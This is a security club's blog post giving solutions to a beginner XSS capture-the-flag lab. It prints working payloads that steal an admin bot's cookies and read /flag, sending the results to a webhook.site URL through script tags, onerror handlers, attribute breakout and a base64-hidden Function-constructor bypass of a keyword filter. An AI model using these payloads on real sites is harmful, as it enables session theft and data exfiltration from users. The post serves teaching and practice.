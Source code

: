 ```yaml
---
layout: post
title:  "beginner xss recap"
date:   2021-09-23
categories: web
---
```


Last meeting (9/23), we went over some beginner XSS (Cross Site Scripting). These are the solutions to the multi-stage challenge that you had lab time to work on.

You can reference the lecture [here](https://docs.google.com/presentation/d/17Gc2c_fv2uEVucDAzmRulf_lyIwglVO-V9X283Geip8/edit#slide=id.p).

Note: the later stages of the challenges were much more than beginner-level, so don't worry if you couldn't get them!

Overall, there were 5 stages:
- [admin cookie flag](#admin-cookie)
- read `/flag` with:
    - [static note type](#static-note)
    - [dynamic note type](#dynamic-note)
    - [image note type](#image-note)
    - [filtered note type](#filtered-note)


The source of the challenge server is also available on [GitHub](https://github.com/blairsec/club-challs-2021/blob/master/xss/site/src/index.ts).

For those who were confused of the overall flow of the challenge, the goal is to achieve XSS and submit a page with malicious code to the admin bot. The admin bot simulates a real person and "visits" the page, (hopefully) triggering your XSS which you can then leverage and turn into a flag. In the real world, the admin bot could be someone important such as someone with a valuable bank account.


#### admin cookie  
We can use [webhook.site](https://webhook.site/) to log our requests.

In this session, my webhook was at `https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de`. Yours probably will look similar, but will have a different UUID (the part after `.site/`).
 
To test that XSS indeed exists, let's make a static note that just sends a GET request to our webhook.site:  
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de")  
</script>  
```  
{% endraw %}  
 
Let's try to steal the cookie of the admin. Using Javascript, we can access the cookies using `document.cookie`. Keep in mind this only works for non-HttpOnly cookies. Read more about HttpOnly cookies [here](https://www.cookiepro.com/knowledge/httponly-cookie/).  
- In short, HttpOnly cookies cannot be accessed by any script run by the browser, including anything malicious that we might put there  
 
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?" + document.cookie)  
</script>  
```  
{% endraw %}  
 
This appends any of the admin's non-HttpOnly cookies to the url, plus the `?`. The `?` marks anything after that as a key-value pair of GET request parameters.  
 
`/?asdf=fdsa&zxcv=vcxz` would contain:  
- asdf: fdsa  
- zxcv: vcxz  
 
It also just happens that document.cookie is in `key=value` format.  
 
Submitting the site to the admin, we get a request to `https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de?cookie_flag=flag%7Bcookie_monster_nom_nom%7D`.

webhook.site automatically extracts the GET request parameters for us, and we can see the flag under the `Query strings` section.  
 
Flag: `flag{cookie_monster_nom_nom}`  
 
#### static note
This time, we want to read `/flag` as the admin and then send the content of whatever we read to ourselves.  
 
Using [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/API/Response/text) for the fetch() api, we see we can use `fetch(url).then(resp => resp.text().then(text => {function}))` to read the contents of `url`. We can then send the content back to ourselves like how we stole the admin's cookies.  
{% raw %}  
```html  
<script>  
fetch("/flag").then(resp =>
    resp.text().then(s =>
        fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)
    )
)
</script>
```  
{% endraw %}

Flag: `flag{starting_off_with_baby_steps}`

#### dynamic note
According to the provided source, the site is rendered with a JavaScript that fetches the user data and then uses `.innerHTML` to populate the user data field, instead of templating it directly. This means that using `<script>` tags won't work because the scripts won't run.

However, we can easily bypass this by using the [`onerror`](https://www.w3schools.com/jsref/event_onerror.asp) property of a dummy image.

In short, the `onerror` property runs the JavaScript assigned to it whenever the image or other structure fails to load. We can make an image with `src="x"` to guarantee that the image load fails, meaning our JavaScript will always run.

Then, we just do the same thing we did last time for the static note, albeit slightly minimized to fit in one line.
```html
<img src="x" onerror='fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))' />
```

Flag: `flag{leeking_deets_like_a_boss}`

#### image note

According to the source, when we create an image note our payload is inserted into the form `<img src="${note.content}"`.

This is really easy to escape. You only need to put a double quote to complete the `src="` and then you can define your own `onerror` handler.

I used ~\`~ (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.

```
x" onerror='fetch(`/flag`).then(resp => resp.text().then(s => fetch(`https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=` + s)))' style="
```

Flag: `flag{the_great_property_escape}`

#### filtered note
The filter consists of the following banned keywords:
```javascript
["script",
"img",
"onerror",
"iframe",
"fetch",
"window",
"eval",
"function",
"then",
"{",
"}",
"xmlhttprequest",
"navigator",
"location",
"self",
]
```

You could think of a very creative and inspiring solution to get around this denylist. Or you could use an [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

I used `<svg><animate onbegin='<payload>' attributeName=x dur=1s>` to achieve XSS.

The process of breaking out of JavaScript jails is typically just a get-it-or-you-don't kind of situation. With so many important keywords banned, it is generally a good idea to find a way to hide the payload used to send yourself the flag with some sort of encoding so the filter cannot detect it. Then, you can decode it and evaluate it. But wait, `eval` is banned too.

It turns out that JavaScript is the best language in the world and you can create a function out of a string. For example, `([]).constructor.constructor('alert(1)')()` constructs a function that does `alert(1)` and runs it. This is super powerful because we can now encode our flag payload and hide it into this function.

Taking our payload from our [dynamic note](#dynamic-note) solution, we can base64 encode it to get it past the filter. Then, we can use `atob()` to convert it back when JavaScript evaluates.

```javascript
// ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp
// is the base64 encoded version of:
fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))
```

Putting it all together, our final payload is:
{% raw %}
```html
<svg><animate onbegin='([]).constructor.constructor(atob("ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp"))()' attributeName=x dur=1s>
```
{% endraw %}

Flag: `flag{cant_stop_me_now}`

See you at our next meeting, on 9/30! We'll also go over the challenge then, although perhaps not in so much detail.

~ josh